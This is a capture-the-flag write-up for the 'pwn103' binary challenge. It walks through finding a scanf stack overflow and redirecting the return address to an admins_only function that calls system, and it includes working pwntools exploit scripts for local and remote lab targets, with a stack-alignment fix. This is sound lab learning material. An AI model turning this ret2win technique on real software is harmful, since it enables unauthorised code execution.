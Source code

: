 # Challenge Name : pwn103

category : pwn

# File


Load file to Cutter . If you dont have cutter this is ref video on how to download and setup your cutter `https://shorturl.at/thoTb`

```
Cutter-v2.3.4-Linux-x86_64.AppImage pwn102-1644307392479.pwn102&
```

In Dashboard we can see the protection and the file format.

```
Canary : False
NX bit : True
PIC    : False
```

Taking a look at main there's scanf function which can be exploit. So lets try exploit by running the program

`give permission`
```
chmod +x pwn103-1644300337872.pwn103
```
`run program`
```
./pwn103-1644300337872.pwn103
```

Lets give a bunch of AAAAAAAAAAAAAAAAA

it just call the main function back when we give invalid input

![alt text](image-3.png)

Okay lets check the case 1 till 5 the function they called whether there is vulnerabilities there

In case 3 , There is scanf function

Lets try to give a bunch of A again


```
🗣  General:

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try harder!!! 💪
zsh: segmentation fault  ./pwn103-1644300337872.pwn103
```

We found the vulnerable function to be exploit

`But how to call system ???`

There is no call system in main or any other function in main. But if we take a look at functions

![](image-3-2.png)

There's sys.admins_only . So lets  checkout this function

![alt text](image-3-3.png)

There's is call system

## Goal

Now our goal is to change the return address of general function which can be exploit to sys.admins_only() function. So instead of going back to main() it return to sys.admins_only().

![alt text](image-4-3.png)


# Python Script

```
from pwn import *

context.binary = binary = ELF("./pwn103-1644300337872.pwn103")

admin_address = p64(binary.symbols.admins_only)
# payload = padding + rbp + admin_address
# buf = 0x-20

payload = b"A" * 0x20 + b"A" * 0x8 + admin_address

p = process()

p.sendline(b"3")

p.recv()
p.sendline(payload)
p.interactive()

```

## Remote

#p = process()
p = remote("10.10.100.218",9003)

By changing that code only

we get into an MOVAPS  issue which affect ubuntu 18 which is the our remote server

to fix this issue. 
we have to padding ROP chain with extra ret or skip a push intruction
To make life easy I just add banner address before the admin-address

```
from pwn import *

context.binary = binary = ELF("./pwn103-1644300337872.pwn103")

admin_address = p64(binary.symbols.admins_only)
banner_address = p64(binary.symbols.banner)
# payload = padding + rbp + admin_address
# buf = 0x-20

payload = b"A" * 0x20 + b"A" * 0x8 + banner_address + admin_address

#p = process()
p = remote("10.10.100.218",9003)

p.sendline(b"3")

p.recv()
p.sendline(payload)
p.interactive()

```


